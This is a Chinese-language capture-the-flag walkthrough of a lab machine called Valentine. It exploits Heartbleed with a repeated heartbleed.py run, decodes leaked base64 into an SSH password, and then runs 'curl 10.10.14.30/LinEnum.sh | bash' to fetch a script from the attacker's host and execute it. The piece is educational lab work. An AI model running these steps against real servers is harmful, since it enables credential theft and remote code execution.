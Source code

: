 ## 心脏出血

现在，回到我们现在知道的基础知识，我们可以通过 shell 访问机器，但我们需要一个密码，机器容易受到 Heartbleed 攻击，这一切都指向我们需要执行 heartbleed 攻击的方向。

所以这个图像是最容易理解的心脏出血的解释，你要求服务器回复土豆(6 个字母)，它这样做，然后你要求它返回鸟(4 个字母)，它这样做，但当你有创意，告诉它发回帽子(500 个字母)。Hat 仅由 3 个字母组成，因此服务器将使用 hat 进行响应，但也会在保存它的内存中发送 hat 旁边的接下来的 497 个字母。这会导致巨大的内存泄漏，并带来泄漏极其重要和高价值数据的风险。

这就是为什么 Heartbleed 攻击是极其危险的，应该调查你的服务器不容易受到攻击。

## 开源代码库

因此，现在利用心脏出血漏洞，我们寻找一个代码可以帮助我们。这里的是我们用来开发机器的 github 库的链接。

heartbleed 的问题在于它很难预测可能呈现给你的输出。因此，为了克服这一点，心脏出血攻击被反复进行，希望发现一些新的信息。

我们有 heartbleed 代码，我们把它保存在我们的文件夹中，然后在机器上运行攻击。

```
python -n 100 heartbleed.py 10.010.10.79
```

通过使用'-n '，我们一次又一次地运行程序上百次，以获得尽可能多的信息。

这个命令完成后，一个巨大的输出呈现在我们面前。

![](img/311ecbdad387e153acefb11e9efc7c16.png)

我们设法把它捞了出来。你会马上注意到这一点，因为大部分获得的信息并不仅仅是看上去有用，因为你不能从中得到任何意义。如果您对编码和解码有任何想法，您可以通过查看$text 值来判断它是 base64 编码的。因此，我们继续解码它，通过下面的命令。

![](img/02062b3dee994b076a00aba286fb31cf.png)

一旦我们收到解码的 base64 消息，我们就用它作为密码通过 SSH 进入情人节信箱。

## 外壳访问

现在，我们拥有了 shell 访问权限，可以运行命令并检查我们现在拥有的特权。运行“ls”命令首先我们在用户目录中，然后我进入桌面目录，再次运行“ls”命令并找到 users.txt。

现在是运行 LinEnum.sh 文件的时候了，它是我们的特权检查器，用来检查我们在这台机器上的特权和其他详细信息。我们首先在我们的机器上设置一个 http web 服务器并托管 LinEnum.sh 文件，这样我们就可以在我们的 Valentine box 上下载该文件。

```
curl 10.10.14.30/LinEnum.sh | bash
```

